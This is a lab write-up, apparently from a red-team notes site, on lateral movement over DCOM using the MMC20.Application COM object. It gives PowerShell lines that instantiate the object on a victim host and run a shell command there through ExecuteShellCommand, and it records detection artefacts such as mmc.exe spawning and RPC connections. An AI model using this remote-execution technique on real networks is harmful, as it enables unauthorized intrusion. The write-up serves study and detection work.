






# T1175: Lateral Movement via DCOM

> The Microsoft Component Object Model \(COM\) is a platform-independent, distributed, object-oriented system for creating binary software components that can interact. COM is the foundation technology for Microsoft's OLE \(compound documents\), ActiveX \(Internet-enabled components\), as well as others.
>
> [https://docs.microsoft.com/en-us/windows/desktop/com/the-component-object-model](https://docs.microsoft.com/en-us/windows/desktop/com/the-component-object-model)

This lab explores a DCOM lateral movement technique using MMC20.Application COM as originally researched by @enigma0x3 in his blog post [Lateral Movement using the mmc20.application Com Object](https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/)

## Execution

MMC20.Application COM class is stored in the registry as shown below:



Same can be achieved with powershell:

```csharp
Get-ChildItem 'registry::HKEY_CLASSES_ROOT\WOW6432Node\CLSID\{49B2791A-B1AE-4C90-9B8E-E860BA07F889}'
```



Establishing a connection to the victim host:


```csharp
$a = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","10.0.0.2"))
```


Executing command on the victim system via DCOM object:


```csharp
$a.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c hostname > c:\fromdcom.txt","7")
```


Below shows the command execution and the result of it - remote machine's `hostname` command output is written to `c:\fromdcom.txt`:


## Observations

Once the connection from an attacker to victim is established using the below powershell:

```csharp
[System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","10.0.0.2"))
```

This is what happens on the victim system - `svchost` spawns `mmc.exe` which opens a listening port via RPC binding:






A network connection is logged from 10.0.0.7 \(attacker\) to 10.0.0.2 \(victim\) via `offense\administrator` \(can be also seen from the above screenshot\):





## References











